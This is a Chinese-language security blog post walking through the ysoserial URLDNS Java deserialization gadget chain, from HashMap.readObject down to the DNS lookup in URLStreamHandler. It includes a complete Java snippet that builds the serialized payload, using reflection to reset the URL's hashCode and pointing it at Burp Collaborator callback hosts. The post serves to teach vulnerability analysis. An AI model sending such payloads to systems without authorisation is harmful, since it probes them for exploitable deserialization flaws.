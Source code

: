 ```yaml
---
title: JAVA安全:URLDNS链
---
```


*作者：Narcher*	*时间：2024/3/16*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

URLDNS链是ysoserial中的一条非常经典的链，由于其与jdk版本无关，使用的均为java内置类，常常被用于检测目标是否存在反序列化漏洞，这条链本身是没有什么危害的，仅能发起DNS请求。



## 正文

我们先去ysoserial中看一下这条链的完整流程：

![1710588514830](JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710588514830.png)

可以看见这条链的流程非常简单，我们就倒着来分析一遍。

### 1.URL.hashCode()部分

为什么要利用URL.hashCode()呢？我们进去看一下：

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

可以发现它的hashCode()方法里边调用了URLStreamHandler的hashCode()方法，而URLStreamHandler的hashCode()方法则如下图所示：

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710588856154.png" alt="1710588856154" style="zoom:50%;" />

可见其将URL传入后调用了getHostAddress()方法，而getHostAddress()方法则会发送DNS请求去查询URL的主机名，如下图所示：

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710588938529.png" alt="1710588938529" style="zoom:50%;" />

既然如此，我们从终点往上回溯，去看看HashMap如何调用的hashCode()方法。

### 2.HashMap.hash()部分

它这个HashMap很有意思，里边呢接收两个随意的值，一个当KEY，一个当VALUE。我们要找HashMap里调用hashCode()方法的地方，如下：

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710589249117.png" alt="1710589249117" style="zoom: 67%;" />

之后我们再往上找利用HashMap中hash()方法的地方。

### 3.HashMap.putVal()部分

我们可以看到HashMap自身的put()方法中有putVal()方法对hash()方法进行了调用，而该方法则是在readObject()中也有调用：

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710589324316.png" alt="1710589324316" style="zoom: 67%;" />

### 4.HashMap.readObject()部分

因为我们在反序列化的时候会触发readObject()方法，而HashMap则对readObject()方法进行了重写，因此我们可以直接将HashMap进行序列化，然后反序列化触发上述URLDNS链。

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710590232141.png" alt="1710590232141" style="zoom:50%;" />

### 5.构造链

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710589616180.png" alt="1710589616180" style="zoom:67%;" />

仅按上述描述来看的话，我们就能够利用上图中的链进行触发了。但实际上，通过调试可以发现，此时触发这条链的并非反序列化，而是序列化之前的：

```java
hashMap.put(new URL("http://d1fq6zzx9q24dt8yandyaqt5awgm4b.burpcollaborator.net"),1);
```

这个就很有意思了，因为put()方法会直接调用hash()方法，导致这条链正向执行一遍，那么我们在反序列化的时候是否还会触发呢？

答案是NONONO~~~~

因为从URL.hashCode()方法中我们可以看到，其私有属性hashCode仅在值为-1的时候会进行执行URLStreamHandler的hashCode()方法，而在正向触发过一次之后，hashCode已经被赋值为其他值了，不能再次触发。那么我们有什么办法使其值在运行过程中改变呢？答案是反射。

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710589823250.png" alt="1710589823250" style="zoom:67%;" />

#### 反射的引用

我们想要这条链在序列化的时候不被触发，而在反序列化的时候触发。那么我们就利用反射，将其在序列化之前，也就是put的时候hashCode赋值为其他，而在序列化前赋值为-1，使其反序列化正好触发。

链子如下：

```java
HashMap<URL,Integer> hashMap = new HashMap<URL,Integer>();
URL url = new URL("http://7ltkbk2jj0pgndcc33oyxbsy1p7fv4.burpcollaborator.net");
Class c = url.getClass();
Field hashcode = c.getDeclaredField("hashCode");
hashcode.setAccessible(true);//针对私有方法必备
hashcode.set(url,1);
hashMap.put(url,1);
hashcode.set(url,-1);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\URLDNS.txt"));
oos.writeObject(hashMap);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\URLDNS.txt"));
ois.readObject();
```

之后我们便可看到正常的DNS请求了：

<img src="JAVA%E5%AE%89%E5%85%A8URLDNS%E9%93%BE/1710590638330.png" alt="1710590638330" style="zoom:50%;" />